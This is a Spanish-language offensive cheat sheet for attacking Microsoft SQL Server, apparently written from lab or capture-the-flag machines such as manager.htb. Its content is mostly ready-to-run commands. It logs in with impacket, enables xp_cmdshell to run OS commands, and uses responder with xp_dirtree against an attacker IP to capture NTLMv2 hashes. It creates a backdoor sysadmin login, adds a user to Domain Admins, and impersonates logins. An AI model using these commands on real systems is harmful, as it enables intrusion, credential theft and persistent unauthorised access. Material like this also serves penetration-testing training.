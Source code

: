 # MICROSOFT SQL SERVER ATTACKS

- Cuando logramos comprometer credenciales de un usuario de SQL Server, podemos realizar ataques adicionales para obtener acceso a la base de datos o ejecutar comandos en el servidor SQL.

## Vectores de ataque

- **SQL Injection**: Si la aplicación web es vulnerable a inyecciones SQL, podemos utilizar esta vulnerabilidad para ejecutar comandos SQL arbitrarios y obtener acceso a la base de datos.

- **SQLCMD**: Herramienta de línea de comandos para interactuar con SQL Server. Permite ejecutar consultas SQL y scripts.

- **xp_cmdshell**: Procedimiento almacenado que permite ejecutar comandos del sistema operativo desde SQL Server. Si está habilitado, podemos ejecutar comandos de Windows directamente desde SQL Server.

### Acceso mediante impacket e intento de RCE

- `impacket-mssqlclient manager.htb/operator:operator@manager.htb -windows-auth`
- Enumerar directorios: `SQL (MANAGER\Operator  guest@master)> xp_dirtree`

#### Habilitar xp_cmdshell
- `EXEC sp_configure 'show advanced options', 1;`
- `RECONFIGURE;`
- `EXEC sp_configure 'xp_cmdshell', 1;`
- `RECONFIGURE;`
- Entonces ahora: `EXEC xp_cmdshell 'whoami';`


#### Exfiltrar NTLMv2-SSP
- `sudo responder -I tun0`
- `xp_dirtree \\10.10.14.34\share`

#### Crear persistencia en MSSQL
- Crear un nuevo usuario con privilegios:
    ```sql
    CREATE LOGIN [pwned] WITH PASSWORD = 'pass';
    CREATE USER [pwned] FOR LOGIN [pwned];
    EXEC sp_addsrvrolemember 'pwned', 'sysadmin';
    ```
- Verificar el acceso:
    ```sql
    SELECT SYSTEM_USER, USER_NAME();
    ```
- `EXEC xp_cmdshell 'net group "Domain Admins" manager\operator /add /domain';`


## Impersonar credenciales
- `enum_impersonate`: esto te va a dar posibles usuarios que podemos impersonar

```
 
execute as   database   permission_name   state_desc   grantee          grantor          
----------   --------   ---------------   ----------   --------------   --------------   
b'LOGIN'     b''        IMPERSONATE       GRANT        HAERO\services   hrappdb-reader   

``` 

- `EXECUTE AS LOGIN = 'hrappdb-reader';`
- `SELECT SYSTEM_USER;`: Para chequear

```

SQL (hrappdb-reader  guest@master)> SELECT SYSTEM_USER;
[%] SELECT SYSTEM_USER;
                 
--------------   
hrappdb-reader   
```




#### Herramientas utiles
- Impacket
- PowerUpSQL
- Metasploit `exploit/windows/mssql/mssql_payload`
